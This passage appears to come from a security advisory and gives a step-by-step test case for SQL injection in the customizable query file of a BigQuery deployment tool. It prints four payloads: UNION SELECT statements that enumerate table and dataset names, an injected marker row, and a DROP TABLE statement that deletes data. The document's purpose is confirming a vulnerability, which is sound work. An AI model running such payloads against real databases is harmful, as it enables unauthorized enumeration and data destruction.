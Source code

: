 - Security Test Case:
    - Step 1: Prepare the environment for deployment as described in the `README.md`.
    - Step 2: Modify the `deploy/customization/queries/extract_all_transactions.sql` file with a SQL injection payload. Choose one of the following examples:

        - **Example 1 (Data Exfiltration - Table Names):**
          ```sql
          -- Original query (replace with your actual base query if needed)
          SELECT * FROM `myclient-123456.1234567.ga_sessions_*` WHERE 1=1

          -- SQL Injection payload: UNION SELECT to extract data from a public dataset
          UNION ALL
          SELECT table_name FROM `bigquery-public-data`.INFORMATION_SCHEMA.TABLES LIMIT 10;
          -- Comment to ensure valid SQL syntax after injection
          ```

        - **Example 2 (Data Exfiltration - Dataset IDs):**
          ```sql
          SELECT dataset_id FROM `region-eu`.INFORMATION_SCHEMA.datasets WHERE project_id = 'myclient-123456'; -- Replace 'myclient-123456' with your BQ_DATA_SOURCE_GCP_PROJECT value from config.yaml
          ```

        - **Example 3 (Data Modification/Deletion - Table Drop - **Use with extreme caution in a test environment only**):**
          ```sql
          -- Original query (replace with your actual base query if needed)
          SELECT * FROM `myclient-123456.1234567.ga_sessions_*` WHERE 1=1

          -- SQL Injection payload: DROP TABLE (DANGEROUS - TEST ENVIRONMENT ONLY)
          ; DROP TABLE `<BQ_LTV_GCP_PROJECT>.<BQ_LTV_DATASET>.predictions_YYYYMMDD`; --
          ```
          **Note**: Replace `<BQ_LTV_GCP_PROJECT>` and `<BQ_LTV_DATASET>` with your actual project and dataset names from `config.yaml`, and `predictions_YYYYMMDD` with a table name that exists in your test dataset. **Running this payload can result in data loss.**

        - **Example 4 (Data Injection - Indicator Row):**
          ```sql
          -- Original Query (replace with your actual base query)
          SELECT * FROM `myclient-123456.1234567.ga_sessions_*` WHERE 1=1

          UNION ALL
          SELECT
            'sql_injection',
            'vulnerable',
            CURRENT_TIMESTAMP(),
            'exploit_confirmed'
          ```

    - Step 3: Execute the deployment script from the `deploy` directory: `sh deploy.sh`.
    - Step 4: After successful deployment, navigate to the BigQuery console in your GCP project (`BQ_LTV_GCP_PROJECT` from `config.yaml`).
    - Step 5: Navigate to "Scheduled queries" and find the newly created BigQuery Data Transfer scheduled query (named like `<DEPLOYMENT_NAME>_<SOLUTION_PREFIX>_extract_all_transactions`).
    - Step 6: Manually run the scheduled query from the BigQuery console by clicking "Run now".
    - Step 7: After the scheduled query execution completes, check the output BigQuery table (defined by `$BQ_LTV_ALL_PERIODIC_TX_TABLE` and the run date in `config.yaml`).
    - Step 8: Examine the data in the output table.
        - For **Example 1**, verify if you see table names from `bigquery-public-data.INFORMATION_SCHEMA.TABLES` in the output table, indicating successful data exfiltration.
        - For **Example 2**, verify if you see dataset IDs from your project.
        - For **Example 3**, **(DANGEROUS - TEST ENVIRONMENT ONLY)** check if the targeted table `predictions_YYYYMMDD` has been dropped. **Data loss is possible.**
        - For **Example 4**, query the output table and check for the injected row with values 'sql_injection', 'vulnerable', and 'exploit_confirmed'.
    - Step 9: Successful execution of the injected SQL code in any of these examples confirms the SQL Injection vulnerability.